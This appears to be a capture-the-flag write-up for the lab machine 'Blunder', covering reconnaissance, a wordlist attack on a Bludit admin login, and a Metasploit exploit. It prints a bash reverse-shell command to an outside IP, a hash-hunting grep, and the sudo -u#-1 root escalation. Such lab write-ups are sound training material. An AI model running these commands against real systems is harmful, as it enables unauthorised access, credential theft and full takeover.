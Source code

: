 # blunder

`NMAP`:

```text
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

this box is a bit weird in its configuration, when I've tried to open the /admin page that we've go from fuzzing, it redirects to another IP, which is the box's IP like, `10.10.10.191` \(even when the box is a private machine which has some IP like `10.129.219.2`, So, i've had to spin this up in a VIP VPN

 from some fuzzing, we get some files, which are, todo.txt, robots.txt, admin, install.php. These four gives us a lot of information

```text
/install.php => Bludit is already installed ;)
/todo.txt => -Inform fergus that the new blog needs images - PENDING
/admin => confirms the application runnign here - bludit
```

so, this confirms us that we have something called `bludit` here, when we search for exploits for this

![](../../.gitbook/assets/screenshot-2021-08-23-at-22.46.31.png)

but we don't know the version yet, let's try to find out by browsing the Github page of `bludit`. I've browsed a bit in the `bludit` Github, to find this which reveals the version, if that file exists in the app root

{% embed url="https://github.com/bludit/bludit/blob/master/bl-plugins/version/metadata.json" %}

so, when we browse to that URL above from our app i.e `/bl-plugins/version/metadata.json`, we get the version. so, from the `searchsploit` results, we find that it has bunch of exploits, and all of them are authenticated exploits. if you remember, we've got a file before, `todo.txt`, which revealed us a username called `fergus`

so, after some fuzzing, there isn't much other than this `bludit` which we can really exploit, so we need to find a password for the `fergus` user to try and login into the admin page. So, lets use `cewl` for this now

`searchsploit -m php/webapps/48942.py` to get the exploit to the local machine. and now we can run this with the wordlist we generated with `cewl -d 7 -m 7 http://10.10.10.191/ -w pwd.list` and user as `fergus` to try our luck. \(I really didn't think this would work\)

![](../../.gitbook/assets/screenshot-2021-08-23-at-23.00.56.png)

so, now let's login into this page and see what it looks like, we can exploit in a min.

![](../../.gitbook/assets/screenshot-2021-08-23-at-23.32.36.png)

there is a `msf` exploit readily available, lets try that, and it works

![](../../.gitbook/assets/screenshot-2021-08-23-at-23.33.38.png)

hmm, lets get a normal shell from here, let's open a listener on our machine using `nc -lnvp 4242`, and run `bash -c 'bash -i >& /dev/tcp/10.10.14.14/4242 0>&1'` to get a reverse shell

now, I did spend quite some time here, without finding much and falling to rabbit holes. finally when we try to find the hashes in the `/var/www` directory, we can find that there are some hashes in the `users.php` somewhere inside which can be cracked using `crackstation`

```text
grep -iIER "[0-9a-f]{40}" /var/www/
```

and that will be the `hugo`'s password, after which `sudo -l` shows us what needs to be done. just

```text
sudo -u#-1 bash
```

this is a known exploit \(`https://nvd.nist.gov/vuln/detail/CVE-2019-14287`\) which I remember I've used this before, which occurs when there is a vulnerability in `sudo` and the permissions say this when you run `sudo -l`

```text
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

and once we run the above command, we are `root`.

![](../../.gitbook/assets/screenshot-2021-08-24-at-01.54.58.png)

